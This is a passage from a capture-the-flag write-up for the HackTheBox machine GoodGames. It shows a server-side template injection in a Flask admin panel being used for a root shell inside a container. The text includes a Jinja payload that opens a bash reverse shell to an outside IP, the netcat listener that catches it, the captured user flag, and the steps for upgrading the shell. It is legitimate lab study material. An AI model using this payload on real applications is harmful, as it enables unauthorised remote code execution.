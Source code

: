  * There's a gear icon on the top right corner of the page once logged in that routes to `internal-administration.goodgames.htb`
   * Added to `/etc/hosts`
   * Logged into admin panel at `http://internal-administration.goodgames.htb/index`, a Flask Volt page

### Dashboard login exploit
 * SSTI vulnerable; tested by entering `{{ 7 * 7}}` in the name and saving. Changes the name to `49`
 * Entered a shell payload in the same field: `{{ namespace.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/10.10.14.67/443 0>&1"').read() }}`
   * Also started `netcat` listner on port 443 to catch the request.
 * Acheived shell access as user `root`:
```Console
root@3a453ab39d3d:/backend# ls
Dockerfile
project
requirements.txt
root@3a453ab39d3d:/backend# whoami
root
root@3a453ab39d3d:/backend# cd /root
root@3a453ab39d3d:~# ls
root@3a453ab39d3d:~# ls -la
total 20
drwx------ 1 root root 4096 Nov  5 15:28 .
drwxr-xr-x 1 root root 4096 Nov  5 15:23 ..
lrwxrwxrwx 1 root root    9 Nov  5 15:28 .bash_history -> /dev/null
-rw-r--r-- 1 root root  570 Jan 31  2010 .bashrc
drwx------ 3 root root 4096 Nov  5 15:23 .cache
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
root@3a453ab39d3d:~# cd /home
root@3a453ab39d3d:/home# ls
augustus
root@3a453ab39d3d:/home# cd augustus
root@3a453ab39d3d:/home/augustus# ls
user.txt
root@3a453ab39d3d:/home/augustus# cat user.txt
6029b09ba997046bc10a5a3d10f0cf2b
root@3a453ab39d3d:/home/augustus#
```
 * Set a better shell:
```Console
root@3a453ab39d3d:/backend# script /dev/null -c bash
script /dev/null -c bash            
Script started, file is /dev/null
root@3a453ab39d3d:/backend# ^Z                 
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
root@3a453ab39d3d:/backend#
```
